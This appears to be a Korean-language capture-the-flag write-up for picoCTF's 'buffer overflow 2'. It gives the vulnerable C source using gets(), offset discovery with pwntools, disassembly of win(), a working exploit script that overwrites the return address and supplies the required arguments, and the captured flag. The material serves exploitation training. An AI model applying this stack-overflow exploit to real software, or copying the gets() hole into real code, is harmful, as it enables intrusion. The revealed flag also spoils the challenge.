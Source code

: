 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## 1. 오프셋 구하기
문제를 풀이하기 위해서는 gets(buf)에서 발생하는 스택 버퍼오버플로우 취약점으로 `RET` 주소를 `win`으로 덮고 실행해야 합니다. 이때, win의 인자와 문제에서 요구하는 값과 일치해야 FLAG가 출력됩니다. 공격 코드를 작성하기 전 버퍼~RET까지의 오프셋을 구해야 합니다.
```bash
$ python3 -q
>>> from pwn import *
>>> p = process("./vuln")
[+] Starting local process './vuln': pid 754
>>> p.sendline(cyclic(200))
>>> p.wait()
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 754)
>>> Corefile("./core.754")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.754'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xff84a760
    Exe:       '/home/kali/pico/vuln' (0x8048000)
    Fault:     0x62616164
Corefile('/home/kali/pico/core.754')
>>> cyclic_find(0x62616164)
112
```
오프셋은 112 입니다.

> [!NOTE]
> 위 처럼 구할 수 있는 이유?
> <br />
>
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
   0x8049300 <win+106>    lea    eax, [ebp - 0x4c]
   0x8049303 <win+109>    push   eax
   0x8049304 <win+110>    call   fgets@plt                   <fgets@plt>

   0x8049309 <win+115>    add    esp, 0x10
 ► 0x804930c <win+118>    cmp    dword ptr [ebp + 8], 0xcafef00d
   0x8049313 <win+125>    jne    win+153                     <win+153>

   0x8049315 <win+127>    cmp    dword ptr [ebp + 0xc], 0xf00df00d
   0x804931c <win+134>    jne    win+156                     <win+156>
```
위 분석을 통해 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```

